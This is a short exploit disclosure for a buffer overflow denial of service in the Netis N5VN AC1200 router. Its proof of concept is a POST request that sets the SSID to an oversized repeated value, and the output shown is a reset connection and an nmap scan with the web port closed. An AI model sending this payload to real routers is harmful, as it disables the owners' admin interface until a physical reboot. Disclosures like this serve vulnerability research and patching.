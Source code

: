 ## Exploit Title: Netis N5VN AC1200 - Buffer Overflow DOS (Denial of Service)

- Date: 05/03/2024

- Exploit Author: Van Lam Nguyen

- Facebook: fb.com/vanlam1412

- Vendor Homepage: [Netis Systems](https://www.netis-systems.com/)

- Version: Netis N5VN AC1200 V1.0.1.1742

- Tested on: Windows

- CVE : N/A

## Overview

- There exist a buffer overflow vulnerability in Netis N5VN AC1200 router that can allow an attacker to crash the web server running on the router by sending a crafted request

- To bring back the http (webserver), a user must physically reboot the route.

## Proof of Concept (Use python)

- POST request to change ssid Wireless 2.4G ('ssid': 'QQ==' \* 5000)

- Successfully: ('Connection aborted.', ConnectionResetError(10054, 'An existing connection was forcibly closed by the remote host', None, 10054, None))

- nmap 192.168.1.254 -p 80 80/tcp closed http

[Watch the video demonstration here](https://youtu.be/WvplWEa3XhU?si=r1BJhyBbHiKtsukQ)

![](https://www8.0zz0.com/2024/08/17/10/168879336.png)

![](https://down-vn.img.susercontent.com/file/vn-11134207-7qukw-lhrie7lcjrgh2b)
